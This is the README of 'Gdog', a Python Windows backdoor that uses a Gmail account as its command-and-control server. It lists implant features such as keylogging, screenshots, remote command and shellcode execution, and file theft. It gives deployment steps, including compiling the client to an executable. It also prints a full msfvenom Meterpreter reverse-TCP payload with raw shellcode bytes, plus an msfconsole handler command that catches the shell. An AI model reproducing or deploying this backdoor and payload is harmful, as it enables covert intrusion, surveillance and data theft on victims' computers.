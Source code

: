 Gdog
====
A stealthy Python based Windows backdoor that uses Gmail as a command and control server

This project was inspired by the gcat(https://github.com/byt3bl33d3r/gcat) from byt3bl33d3r.


Requirements
=====
* Python 2.x
* PyCrypto module
* WMI module
* Enum34 module
* Netifaces module


Features
=====
* Encrypted transportation messages (AES) + SHA256 hashing
* Generate computer unique id using system information/characteristics (SHA256 hash)
* Job IDs are random SHA256 hashes
* Retrieve system information
* Retrieve Geolocation information (City, Country, lat, long, etc..)
* Retrieve running processes/system services/system users/devices (hardware)
* Retrieve list of clients
* Execute system command
* Download files from client 
* Upload files to client
* Execute shellcode
* Take screenshot
* Lock client's screen 
* Keylogger
* Lock remote computer's screen
* Shutdown/Restart remote computer
* Log off current user
* Download file from the WEB
* Visit website
* Show message box to user
* Ability to change check-in time
* Ability to add jitter to check-in time to reduce predictability 


Setup
=====
For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account.
- You may also have to enable IMAP in the account settings.


Download/Installation
====
* https://sourceforge.net/projects/pywin32
* git clone https://github.com/maldevel/gdog
* pip install -r requirements.txt


Contents
=====
- ```gdog.py``` a script that's used to enumerate and issue commands to available clients
- ```client.py``` the actual backdoor to deploy

You're probably going to want to compile ```client.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile client.py using a 32bit Python installation**


Usage
=====
```
                      __
           ____ _____/ /___  ____ _
          / __ `/ __  / __ \/ __ `/
         / /_/ / /_/ / /_/ / /_/ /
         \__, /\__,_/\____/\__, /
        /____/            /____/

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD                Execute a system command
  -visitwebsite URL       Visit website
  -message TEXT TITLE     Show message to user
  -tasks                  Retrieve running processes
  -services               Retrieve system services
  -users                  Retrieve system users
  -devices                Retrieve devices(Hardware)
  -download PATH          Download a file from a clients system
  -download-fromurl URL
                          Download a file from the web
  -upload SRC DST         Upload a file to the clients system
  -exec-shellcode FILE    Execute supplied shellcode on a client
  -screenshot             Take a screenshot
  -lock-screen            Lock the clients screen
  -shutdown               Shutdown remote computer
  -restart                Restart remote computer
  -logoff                 Log off current remote user
  -force-checkin          Force a check in
  -start-keylogger        Start keylogger
  -stop-keylogger         Stop keylogger
  -email-checkin seconds  Seconds to wait before checking for new commands  
  -jitter percentage      Percentage of Jitter
```


Shellcode Exec
=====

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=172.16.153.1 -f python

No encoder or badchars specified, outputting raw payload
Payload size: 354 bytes
buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11"
buf += "\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
buf += "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec"
buf += "\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02"
buf += "\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a"
buf += "\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
buf += "\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
buf += "\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40"
buf += "\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57"
buf += "\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9"
buf += "\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0"
buf += "\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
buf += "\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
buf += "\x53\xff\xd5"
```

Get rid of everything except for the shellcode and stick it in a file:

```
$ cat shell.txt 
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5
```
run the console

```
 ./msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 172.16.153.1; run"
 ```
 
 

